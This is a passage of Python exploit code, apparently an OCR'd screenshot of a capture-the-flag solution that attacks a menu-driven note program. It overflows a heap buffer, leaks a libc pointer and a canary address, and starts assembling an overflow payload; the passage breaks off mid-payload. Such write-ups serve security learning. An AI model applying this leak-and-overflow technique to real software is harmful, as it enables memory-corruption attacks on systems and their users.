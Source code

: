 ```python
		s.sendafter(b'Write something to your note: ', data)

def edit(index, data):
	s.sendlineafter(b'Your choice : ', b'2')
	s.sendlineafter(b'Index: ', str(index).encode())
	s.sendafter(b'Write your new note: ', data)


def show(index):
	s.sendlineafter(b'Your choice : ', b'3')
	s.sendlineafter(b'Which one to open? ', str(index).encode())

def dump(offset):
	payload = b''
	for i in range(0x2000, offset, 8):
		create(0, i)
		edit(0, b'A' * 0x2000)

for i in range(3):
	create(10, 0x2000, b'A\n')
create(0, 0x2000, b'A\n')
show(0)
create(0, 0x46b0)
edit(0, b'A' * 0x46b0)
show(0)

s.recvuntil(b':\n')
d = s.recvuntil(b'A' * 0x46b0)

print(hex(len(d)))
# print(s.recv())

leak = int.from_bytes(s.recv(6), byteorder = 'little', signed = False)
libc.address = leak - offset
canary_addr = leak - 0x21ce20
usefull = libc.address - 0x9000
log.info('Leak: 0x%x', leak)
log.info('Libc base: 0x%x', libc.address)
log.info('Canary address: 0x%x', canary_addr)

create(0, 0x4770)

payload = b'A' * 0x46b0 + p64(leak)

val = [0x7dc0, 0, -0x5c0c0, -0x5bac0, -0x5b1c0] 
val2 = [-0x21ce40, -0x21c420, -0x21ce40, 0, 0]

for i in val:
	if i:
		payload += p64(leak + i)
	else:
		payload += p64(0)

for i in range(12):
	payload += p64(0)

for i in val2:
	if i:
		payload += p64(leak + i)
	else:
		payload += p64(0)

payload += p64(0)
```
